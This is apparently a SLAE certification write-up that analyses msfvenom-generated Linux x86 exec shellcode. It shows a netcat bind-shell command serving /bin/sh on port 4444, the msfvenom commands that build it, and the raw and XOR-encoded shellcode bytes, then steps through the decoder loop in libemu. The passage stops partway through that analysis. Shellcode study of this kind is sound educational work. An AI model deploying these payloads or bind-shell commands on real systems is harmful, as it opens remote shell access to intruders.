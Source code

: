 ![](/msfLogo.png)

For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.
The first will be the payload: /linux/x86/exec
The command being executed will be: nc -nlp 4444 -e "/bin/sh" &
  - This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.
Testing out the command:
```console
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      9119/nc
```
We can see that the command successfully ran and was given the process ID 9119 and the job ID of 1.
Using netstat we see that the process nc is successfully listening on all interfaces (0.0.0.0), on TCP port 4444.
Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.
```console
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
We successfully are able to run commands with our netcat, bind shell.

Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```
This payload contains NULL bytes, rendering it useless for shellcode. We will use the builtin XOR encoder to encode our payload before we analyze it.
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c --encoder x86/xor_dynamic     
x86/xor_dynamic chosen with final size 109
Payload size: 109 bytes
unsigned char buf[] =
"\xeb\x23\x5b\x89\xdf\xb0\x1a\xfc\xae\x75\xfd\x89\xf9\x89\xde"                                                         
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x88\x02\x74\x08\x46\x80\x3e"                                                         
"\x1a\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x02\x1a\x68"                                                         
"\x09\x5a\x9b\x50\x64\x6a\x2f\x61\x8b\xe5\x6a\x2d\x71\x6a\x02"                                                         
"\x6a\x2d\x60\x6b\x6c\x8b\xe1\x50\xea\x1e\x02\x02\x02\x6c\x61"                                                         
"\x22\x2f\x6c\x6e\x72\x22\x36\x36\x36\x36\x22\x2f\x67\x22\x20"                                                         
"\x2d\x60\x6b\x6c\x2d\x71\x6a\x20\x22\x24\x02\x55\x51\x8b\xe3"                                                         
"\xcf\x82\x88\x02";
```
Perfect, now our shellcode is NULL free. Next we will use sctest from libemu to analyze the shellcode.
> I used my  64-bit Kali machine to create the 32-bit MSF Venom shellcode, and to analyze it with libemu. Unfortunately I could not find a trust-worthy download from the internet. Fortunately libemu is included in the kali repo.
```console
root# apt search libemu
libemu2/kali-rolling,now 0.2.0+git20120122-1.2+b1 amd64 [installed,automatic]
  x86 shellcode detection and emulation
```
Now that we have libemu, we will pipe our payload from msfvenom into sctest. Using sctest from libemu, we will create a visual map of how the shellcode is being executed.
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --encoder x86/xor_dynamic | sctest -Ss 10000 -vvv -G execNC.dot
# Convert from dot to png
root# dot -Tpng execNC.dot -o execNC.png
# open png picture with eog
eog execNC.png
```
![](/execNC.png)

At first this may look a little over-whelming, but once we start breaking it down, we will see it is not that bad.
In the top most block, we can see that the shellcode is using the Jump-Call-Pop technique.

The first instruction `jmp 0x25`, jumps forward 25 bytes. This is a short jump. Short jumps use offsets instead of a hard-coded address. This allows the shellcode to work in the programs it is injected into.
The next instruction `call 0xffffffdd`, is a call instruction. This is similar to a jump instruction. Although before jumping, the instruction after the call instruction is pushed onto the stack. 

> This allows the program to return to where it was, once it is done execution where it was called to. In our situation, the next instruction is actually the memory location to our string. Our string is our entire, XOR'd shellcode payload. 

The 3rd instruction `pop ebx`, pop's the pointer to our payload off into the EBX Register. Once in the EBX Register, it is duplicated to the EDI Register using the instruction `mov, edi,ebx`.
We can see that the loop, outlined using the blue arrow, is a XOR decoder loop. The decoder decodes our shellcode byte by byte using the instruction `xor [edi], al`. 
After the byte is decoded, the EDI Register is moved forward one byte using the instruction `inc edi`. The instruction `cmp word [edi],0x971b` compares 2 bytes (a word) starting at the memory location of EDI, with the value 0x971b. If the compare instruction returns that the 2 words match, then the result will return a 0 (the cmp instruction subtracts the two values and sets the Zero Flag if Zero). The instruction `jz 0xa` will jump EIP (the instruction Pointer) forward 10 bytes if the last instruction returned zero. This insturction is "Jump if Zero", also know as "Jump if Equal". 

> If we do the math we can see that that would change our location from 0x00417019, to 0x00417023 (indicated by the black arrow). Remember that this is in Hex not in Decimal, do not be decieved thinking it is only moving forward four. 
>>    0  > 1  > 2  > 3  > 4  > 5  > 6  > 7  > 8  > 9  > 10
    
>>    19 > 1a > 1b > 1c > 1d > 1e > 1f > 20 > 21 > 22 > 23

